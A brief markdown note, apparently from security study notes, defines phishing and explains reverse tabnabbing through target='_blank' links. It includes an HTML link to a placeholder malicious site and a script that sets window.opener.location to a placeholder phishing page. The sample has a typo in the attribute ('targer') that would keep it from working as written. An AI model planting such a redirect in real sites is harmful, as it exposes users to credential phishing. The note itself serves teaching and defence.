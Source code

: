Phishing
======
The act of acquiring private or sensitive data from the victim, usually trough fake emails, websites, phonecalls, messages...

Phishing from target="_blank"
======
The target="_blank" has a vulnerability that allow the attacker to manipulate the parent page within the child page.
If the user can generate a link, the website can be easily exploited
```html
<!-- Malicious Link -->
<a href="http://maliciouswebsite.com" targer="_blank">Check this photos</a>

<!-- Redirect script on malicious website -->
<script>
    window.opener.location = "http://phishingpage.com";
</script>
```

